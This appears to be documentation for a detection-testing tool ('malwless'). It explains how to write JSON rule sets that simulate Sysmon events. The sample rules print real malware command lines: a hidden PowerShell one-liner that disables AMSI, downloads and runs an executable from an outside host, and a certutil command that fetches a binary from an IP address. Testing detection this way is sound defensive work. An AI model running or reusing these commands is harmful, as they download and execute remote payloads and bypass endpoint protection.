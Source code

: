 # Writing format
Writing a custom `rule set` is very easy. These are based on `json` format and you only need to put your rules into the `rules` child.

Also you can add extra info like:

| field | content |
| --- | --- |
| `name` | If you wan't to give your set a name. |
| `version` | Don't forget to update the versions. |
| `author` | Some credits for the authors. |
| `description` | Describe the set or add some references. |

###### header example
```
{
  "name": "rule set name",
  "version": "version number",
  "author": "author",
  "description": "simple description",
  "rules": {
  }
}
```
Now we can start writing some rules...
```
"powershell_malware": {
  "enabled": true,
  "source": "Sysmon",
  "category": "Process Create",
  "description": "I just saw this on https://www.hybrid-analysis.com/sample/fa38a52f6500cd6f16adc1d2a30193240a95761089e2636c02514522b233737d?environmentId=100",
  "payload": {
    "Image": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
    "CommandLine": "powershell.exe -WindowStyle Hidden -noprofile [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true);If (test-path $env:APPDATA + '\\th41.exe') {Remove-Item $env:APPDATA + '\\th41.exe'}; $OEKQD = New-Object System.Net.WebClient; $OEKQD.Headers['User-Agent'] = 'USR-KL'; $OEKQD.DownloadFile('http://kikkerdoc.com/home/kikkerdo/oo.exe', $env:APPDATA + '\\th41.exe'); (New-Object -com Shell.Application).ShellExecute($env:APPDATA + '\\th41.exe'); Stop-Process -Id $Pid -Force"
  }
},
"certutil_download_command": {
  "enabled": true,
  "source": "Sysmon",
  "category": "Process Create",
  "description": "Seems like malware is using this.",
  "payload": {
    "Image": "C:\\Windows\\System32\\certutil.exe",
    "CommandLine": "certutil.exe -urlcache -split -f http://185.189.58.222/bam.exe"
  }
},
"certutil_download_command": {
  "enabled": true,
  "source": "Sysmon",
  "category": "Network connection detected",
  "description": "Also we can test it via network activity.",
  "payload": {
    "Image": "C:\\Windows\\System32\\certutil.exe",
    "DestinationIp": "185.189.58.222"
  }
}
```
Then you need to put it into `rules` and save the file. You can test the `rule set` with:
```commandline
> malwless.exe -r rule_set_file.json
```
